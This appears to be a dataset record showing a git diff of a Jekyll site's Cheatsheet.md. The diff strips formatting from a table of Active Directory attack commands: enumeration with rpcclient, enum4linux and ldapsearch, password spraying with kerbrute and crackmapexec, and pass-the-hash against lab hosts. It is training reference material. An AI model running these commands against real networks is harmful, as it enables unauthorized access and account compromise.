

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1121 px. Shown: the whole window at 89% size, without its empty margins (105-1165 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update Cheatsheet.md

```diff
--- a/Cheatsheet.md
+++ b/Cheatsheet.md
@@ -18,27 +18,28 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Used `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host. |
-| `rpcclient -U "" -N 172.16.5.5`                              | Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host. |
-| `rpcclient $> querydominfo`                                  | Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.|
-| `enum4linux  -P 172.16.5.5`                                  | Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host. |
-| `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                  | Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option. |
-| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength` | Uses `ldapsearch` to enumerate the password policy in a  target Windows domain from a Linux-based host. |
-| `net accounts`                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
-| `Import-Module .\PowerView.ps1`                              | Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host. |
-| `Get-DomainPolicy`                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
-| `enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"` | Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host. |
-| `rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser`    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
-| `crackmapexec smb 172.16.5.5 --users`                        | Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host. |
-| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host. |
-| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`              | Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host. |
-| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done` | Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
-| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1` | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
-| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`. |
-| ` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host. |
-| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |
-| `Import-Module .\DomainPasswordSpray.ps1`                    | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host. |
-| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host. |
+| crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol | Used CrackMapExecand valid credentials (avazquez:Password123) to enumerate the password policy (--pass-pol) from a Linux-based host. |
+| rpcclient -U "" -N 172.16.5.5                              | Uses rpcclient to discover information about the domain through SMB NULL sessions. Performed from a Linux-based host. |
+| rpcclient $> querydominfo                                  | Uses rpcclient to enumerate the password policy in a target Windows domain from a Linux-based host.|
+| enum4linux  -P 172.16.5.5                                  | Uses enum4linux to enumerate the password policy (-P) in a target Windows domain from a Linux-based host. |
+| enum4linux-ng -P 172.16.5.5 -oA ilfreight                  | Uses enum4linux-ng to enumerate the password policy (-P) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the -oA option. |
+| ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength  Uses ldapsearch to enumerate the password policy in a  target Windows domain from a Linux-based host. |
+| net accounts                                               | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
+| Import-Module .\PowerView.ps1                              | Uses the Import-Module cmd-let to import the PowerView.ps1 tool from a Windows-based host. |
+| Get-DomainPolicy                                           | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
+| enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]" | Uses enum4linux to discover user accounts in a target Windows domain, then leverages grep to filter the output to just display the user from a Linux-based host. |
+| rpcclient -U "" -N 172.16.5.5  rpcclient $> enumdomuser    | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
+| crackmapexec smb 172.16.5.5 --users                        | Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host. |
+| ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" " | Uses ldapsearch to discover users in a target Windows doman, then filters the output using grep to show only the sAMAccountName from a Linux-based host. |
+| ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U              | Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host. |
+| for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done | Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
+| kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1 | Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
+| sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep + | Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep. |
+|  sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123 | Uses CrackMapExec to validate a set of credentials from a Linux-based host. |
+| sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep + | Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep. |
+| Import-Module .\DomainPasswordSpray.ps1                    | Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host. |
+| Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host. |
+
 
 
 
```
